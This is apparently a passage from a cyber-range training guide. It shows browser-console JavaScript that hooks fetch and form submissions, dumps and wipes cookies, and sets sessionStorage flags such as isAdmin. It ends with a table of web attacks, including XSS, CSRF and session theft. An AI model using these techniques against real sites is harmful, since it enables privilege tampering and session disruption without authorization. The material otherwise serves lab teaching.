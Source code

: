 #### Attack 2: Console - Hijack Functions

```javascript
// Open console and override functions

// Hijack fetch to log all requests
const originalFetch = window.fetch;
window.fetch = function(...args) {
    console.log('Intercepted fetch:', args);
    return originalFetch.apply(this, args);
};

// Hijack form submissions
const forms = document.querySelectorAll('form');
forms.forEach(form => {
    form.addEventListener('submit', (e) => {
        console.log('Form data:', new FormData(form));
    });
});
```

#### Attack 3: Application Tab - Storage Manipulation

```javascript
// Application tab → Storage

// View all cookies
document.cookie.split(';').forEach(c => console.log(c));

// Modify session data
sessionStorage.setItem('isAdmin', 'true');
sessionStorage.setItem('userId', '1');

// Clear competitor's cookies (if XSS exists)
document.cookie.split(";").forEach(c => {
    document.cookie = c.replace(/^ +/, "")
        .replace(/=.*/, "=;expires=" + new Date().toUTCString() + ";path=/");
});
```

---

## Summary

### UI-Based Attacks Available in W Corp Cyber Range:

| Attack Type | Location | Impact | Difficulty |
|-------------|----------|--------|------------|
| **Stored XSS** | Username field | High | Easy |
| **File-Based XSS** | File upload | Critical | Medium |
| **CSRF** | All POST endpoints | High | Easy |
| **Clickjacking** | Iframe embedding | Medium | Easy |
| **Session Theft** | Browser console | Critical | Very Easy |
| **Token Manipulation** | localStorage | Medium | Medium |
| **DOM XSS** | URL parameters | High | Medium |
